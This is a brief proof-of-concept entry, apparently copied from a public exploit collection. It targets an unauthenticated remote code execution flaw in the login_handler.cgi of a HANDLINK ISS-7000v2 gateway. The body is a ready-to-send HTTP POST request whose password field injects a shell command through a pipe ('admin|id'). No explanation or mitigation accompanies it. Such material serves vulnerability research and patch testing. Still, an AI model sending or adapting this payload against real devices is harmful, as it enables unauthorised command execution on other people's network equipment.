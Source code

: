 # HANDLINK_login_handler_rce

product: HANDLINK
from: https://github.com/wy876/POC/blob/main/%E7%80%9A%E9%9C%96%E7%A7%91%E6%8A%80%E8%82%A1%E4%BB%BD%E6%9C%89%E9%99%90%E5%85%AC%E5%8F%B8/HANDLINK-ISS-7000v2%E7%BD%91%E5%85%B3login_handler.cgi%E6%9C%AA%E6%8E%88%E6%9D%83RCE%E6%BC%8F%E6%B4%9E.md

```
POST /login_handler.cgi HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Content-Type: application/x-www-form-urlencoded
Connection: close

username=admin&password=admin|id&uilng=3&button=%E7%99%BB%E5%85%A5&Signin=
```
